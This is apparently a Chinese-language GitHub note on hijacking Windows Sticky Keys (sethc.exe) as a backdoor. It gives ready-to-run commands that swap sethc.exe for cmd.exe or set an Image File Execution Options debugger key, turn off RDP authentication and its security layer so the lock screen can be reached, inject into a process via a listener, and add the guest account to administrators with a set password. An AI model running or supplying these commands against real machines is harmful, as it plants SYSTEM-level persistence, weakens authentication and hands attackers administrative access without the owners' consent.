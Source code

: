 ## 劫持sethc.exe（粘滞键）

### sethc介绍

sethc就是windows中的粘滞键。他的启用方式是按5下shift键，windows就会去找c:\windows\system32\下面的sethc.exe程序，并执行它。那么这个时候，细心的我们就应该发现，cmd也是在这个目录下。系统是通过检索sethc这个名字来启用的，那我们是否可以将cmd改成sethc，从而使本该调用sethc的时候，“错误”的调用了cmd。这样，就形成了一个漏洞。而且这个快捷方式只要不被禁用，甚至在电脑没有进入系统桌面之前都可以被调用，且此时为system权限，因为这个东西比较隐蔽，所以很多人都忽视了它，正因为如此，它的危害就显而易见了。可以留做后门，平常木马后门容易被发现，或者提权困难的情况下，使用sethc替换后门是不错的选择。

## sethc权限

我们打开sethc.exe文件的属性，发现在默认情况下是属于trustedtnstaller所有，不管是普通用户还是administrator都没有权限对它进行编辑的。trustedinstaller是一个安全机制，权限比administrator管理权高，但比system低。我们可以通过选择安全，高级中把从父项继承的√取消掉。如图我的已经修改了。

## 相关命令

```powershell
# sethc.exe 劫持
# 1. 替换exe
cd c:\windows\system32
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe 
# 2. 注册表劫持
# reg add 是向注册表添加记录
# HKLM 是 HKEY_LOCAL_MACHINE 的缩写
# Image File Execution Option 这个目录就是用来设置镜像劫持的，要被劫持的就是命令中的 sethc 粘滞键程序
# 随后通过 /v 来指定键名，这个键名 debugger 是固定的
# 然后通过 /t 来指定类型，即 REG_SZ 字符串类型
# 最后通过 / d 来指定键的值，即被恶意替换的程序，也就是我们的 cmd。
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"

# 开启rdp
# 第一个是设置远程桌面连接的用户鉴定选项的状态。分为“0”和“1”两种状态。
# “0” 代表进行远程桌面前不需要用户身份验证，这时输入用户名不输入密码点连接会直接到远程桌面锁屏的那个界面
# “1” 代表需要进行用户身份验证，当我们输入用户名不输入密码直接点击连接会提示身份验证错误
# 所以设置为0我们可以直接到目标机的锁屏，然后直接调用cmd。
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
# 第二个是设置远程桌面连接的安全层，有三个参数：“0”“1”“2”。
# “0” 就是连接前使用rdp协议进行身份验证
# “1” 是指在连接前两端协商来进行身份验证
# “2” 是使用tls协议来进行
# 所以设置为0我们可以直接到目标机的锁屏，然后直接调用cmd。
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
```

### 进程注入

```
inject <pid> <x86/x64> <listener>
```

## 添加用户

```powershell
cmd.exe /c \"net user guest /active:yes && net localgroup administrators guest /add && net user guest Qweqwe123\"
```

